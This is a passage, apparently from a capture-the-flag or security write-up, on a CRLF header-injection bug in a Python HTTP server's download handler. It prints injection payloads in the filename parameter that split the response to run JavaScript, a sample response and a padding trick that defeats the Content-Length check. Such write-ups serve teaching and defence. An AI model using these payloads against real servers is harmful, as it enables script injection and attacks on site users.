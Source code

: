 ```
filename=anything"%0d%0a%0d%0aalert(origin);//hello??
```

Response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 90
Content-Disposition: attachment; filename="anything"

alert(origin);//hello??.html"

<h1>Message (UUIDv4: 62539c2f-92bd-48ae-a24f-2bc534c6ed22)</h1><code><pre>foo</pre></code>
```

This is because the response `Content-Length` header's value is calculated based on the message length:

```python
class MessageHandler(BaseHTTPRequestHandler):
    [...]
    def _handleDownloadMessage(self, query):
        [...]
        return self._sendResponse(HTTPStatus.OK, generateHtmlMessage(uuidParam), CONTENT_TYPE['html'], headers=headers)
```

```python
class MessageHandler(BaseHTTPRequestHandler):
    [...]
    def _sendResponse(self, statusCode, responseBody, contentType, headers=list()):
        responseBody = responseBody.encode()
        [...]
        self.send_header('Content-Length', str(len(responseBody)))
```

Therefore, we can simply bypass the invalid JavaScript syntax by appending junk texts, so that the length of the injected message body is greater than the fixed `Content-Length` value:

```
filename=anything"%0d%0a%0d%0aalert(origin);//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
